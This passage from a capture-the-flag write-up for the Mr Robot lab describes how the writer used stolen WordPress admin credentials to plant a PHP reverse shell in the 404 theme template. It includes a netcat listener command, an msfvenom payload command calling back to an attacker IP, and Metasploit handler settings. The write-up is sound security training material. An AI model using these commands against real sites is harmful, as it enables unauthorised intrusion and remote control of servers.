 Using the credentials we found, we log in and are presented with Elliot's WordPress dashboard. After looking around, we see that we have access to a theme editor.

<center>

![b012d5df19bf44bae95653fc177520dc.png](/Mr%20Robot%20CTF/_resources/b012d5df19bf44bae95653fc177520dc-1.png)

![adb31d6238f4c3cc826c5740b82fdf54.png](/Mr%20Robot%20CTF/_resources/adb31d6238f4c3cc826c5740b82fdf54-1.png)

</center>

We will edit the 404 Template; our goal is to upload a reverse shell using this editor in order to get command execution of the underlying machine. Set up a netcat lister with `rlwrap nc -lvnp 9999`. (`rlwrap` is used to get a slightly better shell.) At this point, we can generate a php reverse shell payload using msfvenom: `msfvenom -p php/meterpreter/reverse_tcp LHOST=10.6.30.43 LPORT=9999 -f raw -o payload.php`. We would then set up our handler with Metasploit with `exploit/multi/handler`
and with payload `php/meterpreter/reverse_tcp`.

Alternatively, we can use [Pentestmonkey's php reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). This is what we'll do. Make the appropriate changes to the script, update the 404 Template file, and navigate to `10.10.89.74/404.php`. We see that this gives a reverse shell, and so we have an initial foothold.

<center>

![9c52f3524f4ec6a5d6cf6c6ee75dea9e.png](/Mr%20Robot%20CTF/_resources/9c52f3524f4ec6a5d6cf6c6ee75dea9e-1.png)

</center>